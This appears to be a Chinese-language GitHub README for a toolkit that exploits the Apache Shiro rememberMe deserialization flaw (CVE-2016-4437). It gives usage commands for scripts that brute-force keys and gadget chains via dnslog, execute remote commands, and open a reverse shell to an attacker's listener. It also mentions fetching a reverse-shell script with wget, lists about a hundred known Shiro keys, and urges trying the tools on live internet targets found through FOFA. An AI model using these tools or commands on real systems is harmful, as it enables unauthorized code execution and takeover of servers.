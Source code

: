 ## Awesome-shiro

CVE-2016-4437 Shiro&lt;=1.2.4反序列化，爆破模块和key、代码执行、反弹shell的工具

----

## 漏洞原因
因为shiro对cookie里的rememberme字段进行了反序列化，所以如果知道了shiro的编码方式，然后将恶意命令用它的编码方式进行编码并放在http头的cookie里，在shiro对提交的cookie的rememberme字段进行反序列化时，也就执行了插入的命令，最终造成了命令执行

shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：
`得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化 `

## 环境
linux/win10 均可                 
python2/python3 均可          
由于module下有ysoserial.jar 所以项目略大，多多包涵
## 本地搭建靶场
```
docker pull medicean/vulapps:s_shiro_1
docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
## 脚本使用
#### 1、shiro_crack.py 爆破模块使用
需要结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do 1695jb.dnslog.cn
```
成功后查看记录-记录格式为 {{key}}.{{module}}.dnslogurl
```
U3ByaW5nQmxhZGUAAAAAAA.CommonsBeanutils1.x9zm4v.dnslog.cn
```
可知成功的key为`U3ByaW5nQmxhZGUAAAAAAA==`,模块为`CommonsBeanutils1`
因为key中包含==/+等符号，本项目会转义一丢丢。需自行对比附录1的key
fofa上找一个玩玩
![](./img/1.png)
![](./img/2.png)
##### shiro_crack.py 原理
其实网上有很多爆破模块和key的工具，但是爆破成功后一般只是打通，并不知道模块和key是什么，因为对于无回显的rce，无论通没通，响应码均为200。
本项目通过爆破模块和key结合dnslog间接获取成功的key和模块，原理即为DNSlog的内涵，Dns在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信。

### 2、shiro_rce.py rce使用
可结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do "ping rcetest.x9zm4v.dnslog.cn"
```
dnslog查看到`ping rcetest.x9zm4v.dnslog.cn` 为了区分，建议用更低一级的域名
#### shiro_rce 配置
1、配置模块
需要将第13行 
``` popen = subprocess.Popen(['java', '-jar', '../module/ysoserial.jar', 'CommonsBeanutils1', command], stdout=subprocess.PIPE)```其中的CommonsBeanutils1改为爆破成功用的模块
2、配置key
将第16行

 ```
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") 
```

改成爆破成功的key
fofa上找一个玩
![](./img/3.png)
![](./img/4.png)

### 3、shiro_getshell 反弹shell
```
nc -lvnp 7777
python3 shiro_exp.py -u {{攻击的靶机}} -lh {{反弹shell的ip}} -lp {{反弹shell的端口}}
```
为了安全，还是打本地
原理即是把JRMPListener和payload打包丢一起了，其实讲道理可以不用jrmplistener


#### shiro_getshell测试：

![](./img/5.png)

---
一点小想法
既然可以出网，为啥不能直接用shiro_rec,`bash反弹shell`嘞
试过几次失败，我感觉是shiro有啥过滤，但是我发现可以先wget下载一个反弹shell的sh脚本，然后sh执行
参考[自己不用jrmplistener反弹shell的一点小研究](https://st4ck.gitee.io/2020/04/24/apache-shiro-1-2-4-fan-xu-lie-hua-lou-dong-cve-2016-4437-fu-xian-yu-dao-de-keng/)

---

### 4、fuzz-shiro
根据请求头，响应头做一个简单的测试

## 常见问题
### 1、win10下运行时出现 No module named 'Crypto'
运行如下命令：
```
pip uninstall crypto pycryptodome
pip install pycryptodome
```
python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

## 附录1、shiro常用key
```
kPH+bIxk5D2deZiIxcaaaA==
4AvVhmFLUs0KTA3Kprsdag==
Z3VucwAAAAAAAAAAAAAAAA==
fCq+/xW488hMTCD+cmJ3aQ==
0AvVhmFLUs0KTA3Kprsdag==
1AvVhdsgUs0FSA3SDFAdag==
1QWLxg+NYmxraMoxAXu/Iw==
25BsmdYwjnfcWmnhAciDDg==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
3JvYhmBLUs0ETA5Kprsdag==
r0e3c16IdVkouZgk1TKVMg==
5aaC5qKm5oqA5pyvAAAAAA==
5AvVhmFLUs0KTA3Kprsdag==
6AvVhmFLUs0KTA3Kprsdag==
6NfXkC7YVCV5DASIrEm1Rg==
6ZmI6I2j5Y+R5aSn5ZOlAA==
cmVtZW1iZXJNZQAAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
8AvVhmFLUs0KTA3Kprsdag==
8BvVhmFLUs0KTA3Kprsdag==
9AvVhmFLUs0KTA3Kprsdag==
OUHYQzxQ/W9e/UjiAGu6rg==
a3dvbmcAAAAAAAAAAAAAAA==
aU1pcmFjbGVpTWlyYWNsZQ==
bWljcm9zAAAAAAAAAAAAAA==
bWluZS1hc3NldC1rZXk6QQ==
bXRvbnMAAAAAAAAAAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
wGiHplamyXlVB11UXWol8g==
U3ByaW5nQmxhZGUAAAAAAA==
MTIzNDU2Nzg5MGFiY2RlZg==
L7RioUULEFhRyxM7a2R/Yg==
a2VlcE9uR29pbmdBbmRGaQ==
WcfHGU25gNnTxTlmJMeSpw==
OY//C4rhfwNxCQAQCrQQ1Q==
5J7bIJIV0LQSN3c9LPitBQ==
f/SY5TIve5WWzT4aQlABJA==
bya2HkYo57u6fWh5theAWw==
WuB+y2gcHRnY2Lg9+Aqmqg==
kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
3qDVdLawoIr1xFd6ietnwg==
ZWvohmPdUsAWT3=KpPqda
YI1+nBV//m7ELrIyDHm6DQ==
6Zm+6I2j5Y+R5aS+5ZOlAA==
2A2V+RFLUs+eTA3Kpr+dag==
6ZmI6I2j3Y+R1aSn5BOlAA==
SkZpbmFsQmxhZGUAAAAAAA==
2cVtiE83c4lIrELJwKGJUw==
fsHspZw/92PrS3XrPW+vxw==
XTx6CKLo/SdSgub+OPHSrw==
sHdIjUN6tzhl8xZMG3ULCQ==
O4pdf+7e+mZe8NyxMTPJmQ==
HWrBltGvEZc14h9VpMvZWw==
rPNqM6uKFCyaL10AK51UkQ==
Y1JxNSPXVwMkyvES/kJGeQ==
lT2UvDUmQwewm6mMoiw4Ig==
MPdCMZ9urzEA50JDlDYYDg==
xVmmoltfpb8tTceuT5R7Bw==
c+3hFGPjbgzGdrC+MHgoRQ==
ClLk69oNcA3m+s0jIMIkpg==
Bf7MfkNR0axGGptozrebag==
1tC/xrDYs8ey+sa3emtiYw==
ZmFsYWRvLnh5ei5zaGlybw==
cGhyYWNrY3RmREUhfiMkZA==
IduElDUpDDXE677ZkhhKnQ==
yeAAo1E8BOeAYfBlm4NG9Q==
cGljYXMAAAAAAAAAAAAAAA==
2itfW92XazYRi5ltW0M2yA==
XgGkgqGqYrix9lI6vxcrRw==
ertVhmFLUs0KTA3Kprsdag==
5AvVhmFLUS0ATA4Kprsdag==
s0KTA3mFLUprK4AvVhsdag==
hBlzKg78ajaZuTE0VLzDDg==
9FvVhtFLUs0KnA3Kprsdyg==
d2ViUmVtZW1iZXJNZUtleQ==
yNeUgSzL/CfiWw1GALg6Ag==
NGk/3cQ6F5/UNPRh8LpMIg==
4BvVhmFLUs0KTA3Kprsdag==
MzVeSkYyWTI2OFVLZjRzZg==
CrownKey==a12d/dakdad
empodDEyMwAAAAAAAAAAAA==
A7UzJgh1+EWj5oBFi+mSgw==
YTM0NZomIzI2OTsmIzM0NTueYQ==
c2hpcm9fYmF0aXMzMgAAAA==
i45FVt72K2kLgvFrJtoZRw==
U3BAbW5nQmxhZGUAAAAAAA==
ZnJlc2h6Y24xMjM0NTY3OA==
Jt3C93kMR9D5e8QzwfsiMw==
MTIzNDU2NzgxMjM0NTY3OA==
vXP33AonIp9bFwGl7aT7rA==
V2hhdCBUaGUgSGVsbAAAAA==
Z3h6eWd4enklMjElMjElMjE=
Q01TX0JGTFlLRVlfMjAxOQ==
ZAvph3dsQs0FSL3SDFAdag==
Is9zJ3pzNh2cgTHB4ua3+Q==
NsZXjXVklWPZwOfkvk6kUA==
GAevYnznvgNCURavBhCr1w==
66v1O8keKNV3TTcGPK1wzg==
SDKOLKn2J1j/2BHjeZwAoQ==
```
